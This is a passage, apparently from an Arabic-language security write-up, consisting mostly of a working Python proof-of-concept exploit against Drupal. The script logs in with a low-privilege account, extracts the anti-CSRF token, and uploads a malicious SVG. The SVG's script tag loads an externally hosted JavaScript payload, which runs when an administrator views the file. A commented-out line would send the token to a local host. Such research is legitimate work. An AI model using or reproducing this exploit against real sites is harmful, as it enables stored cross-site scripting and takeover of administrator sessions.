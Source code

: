 طيب الآن الخطوة الأخيرة وهي رفع الملف بإستخدام صلاحيتنا المحدودة وبعدها ننتظر الآدمن يزور الملف ليتم تنفيد المحتوى الموجود واللي راح نفصل فيه فالسكشن التالي بإذن الله.

هذا السكريبت النهائي اللي راح يرفع لنا الملف بإستخدام بايثون:

```python
import requests, optparse, sys
from bs4 import BeautifulSoup

#OptionsParser
def Args():
    Parser = optparse.OptionParser()
    Parser.add_option("--host", "-H", dest="host", help="The Targeted Host")
    Parser.add_option("--folder", "-f", dest="WebRoot", help="The WebRoot Folder")
    Parser.add_option("--user", "-u", dest="username", help="Username")
    Parser.add_option("--pass", "-p", dest="password", help="Password")
    Parser.add_option("--exploit", "-e", dest="exploit", help="The External JS Exploit Path")
    (arguments, values) = Parser.parse_args()
    return arguments

def upload(host, WebRoot, username, password, exploit):

    #Check if the provided host is using HTTP or HTTPS
    if(requests.get("http://"+host).status_code == 200):   
        targetUrl = 'http://{}/{}'.format(host, WebRoot)
    else:
        targetUrl = 'https://{}/{}'.format(host, WebRoot)
    
    #Initiating the login request
    body = {
        "name" : username,
        "pass" : password,
        "form_id" : "user_login_form",
        "op" : 'Log in'
    }
    session = requests.Session()
    session.post(targetUrl+"/user/login", data=body)
    print("\n[+] Logged in Successfully")

    #Parsing the response then extracting the Anti-CSRF Token
    print("\n[+] Extracting the Anti-CSRF Token ...")
    response = session.get(targetUrl+"/node/add/article").text
    token = BeautifulSoup(response, 'html.parser').find('input', {'name':'form_token'})['value']
    #session.get("http://127.0.0.1:8000/?miao="+token)

    #Uploading the .svg file
    file = {
        'form_token' : (None, token),
        'form_id' : (None, "node_article_form"),
        'files[field_files_0][]' : ("POC.svg", '''<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink"><script xlink:href="'''+exploit+'''"/></svg>''', "image/svg+xml"),
    }
    session.post(targetUrl+"/node/add/article?element_parents=field_f/widget&ajax_form=1&_wrapper_format=drupal_ajax&_wrapper_format=drupal_ajax", files=file)
    print("\n[+] Crafted request was sent and POC.svg has been uploaded ^_^")


def main():
    if len(sys.argv) == 11:
        arguments = Args()
        upload(arguments.host, arguments.WebRoot, arguments.username, arguments.password, arguments.exploit)
    else:
        print("Usage python POC.py -H localhost -f drupal-9.4.5 -u Mesh3l -p Mesh3l@.@..1 -e http://127.0.0.1:8000/exploit.js")
```